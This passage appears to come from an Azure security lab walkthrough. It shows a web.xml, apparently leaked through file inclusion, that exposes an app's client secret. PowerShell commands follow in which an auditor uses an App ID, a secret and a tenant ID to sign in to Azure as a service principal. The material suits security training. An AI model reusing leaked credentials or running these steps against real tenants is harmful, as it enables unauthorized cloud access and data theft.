 
- The output contains the App ID and the Secret for the Managed Identity of the `resourcespharmacorp` web app.
```http
<snip>
<web-app xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://xmlns.jcp.org/xml/ns/javaee" xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd" id="WebApp_ID" version="3.1">
  <display-name>AzureAppServicePharmaLFI</display-name>

     <welcome-file-list>
    <welcome-file>home.jsp</welcome-file>
  </welcome-file-list>
  
  <servlet>
    <display-name>MainServlet</display-name>
    <servlet-name>MainServlet</servlet-name>
    <servlet-class>servlet.MainServlet</servlet-class>
  </servlet>
  
  <servlet-mapping>
    <servlet-name>MainServlet</servlet-name>
    <url-pattern>/main/*</url-pattern>
  </servlet-mapping>
  
  
  <context-param>
    <param-name>ClientSecret</param-name>
    <param-value>7e7730b1-29ab-4adf-bb20-7ae61987d01f:~9j8Q~f339gnUfSBxSO5yuQXM6ztfCBL8LPjXa3I</param-value>
  </context-param>

</web-app>?

<snip>
```

- The auditor uses those credentials to authenticate to Azure as that managed Identity. The actual secret is `K0K8Q~ExBQs5edLcwSaf1cSuJelrIP_~sdl5mbB_` which is provided by the lab support.
```powershell
PS C:\Auditor> $password = ConvertTo-SecureString 'K0K8Q~ExBQs5edLcwSaf1cSuJelrIP_~sdl5mbB_' -AsPlainText -Force
PS C:\Auditor> $appid = '7e7730b1-29ab-4adf-bb20-7ae61987d01f'
PS C:\Auditor> $creds = New-Object System.Management.Automation.PSCredential($appid, $password)
PS C:\Auditor> Connect-AzAccount -Credential $creds -ServicePrincipal -Tenant e0f999c1-86ee-47a0-bfd5-18470154b7cd
WARNING: The provided service principal secret will be included in the 'AzureRmContext.json' file found in the user profile ( C:\Users\studentuser105\.Azure ). Please ensure that this directory has appropriate protections.

Account                              SubscriptionName TenantId                             Environment
-------                              ---------------- --------                             -----------
7e7730b1-29ab-4adf-bb20-7ae61987d01f                  e0f999c1-86ee-47a0-bfd5-18470154b7cd AzureCloud
```

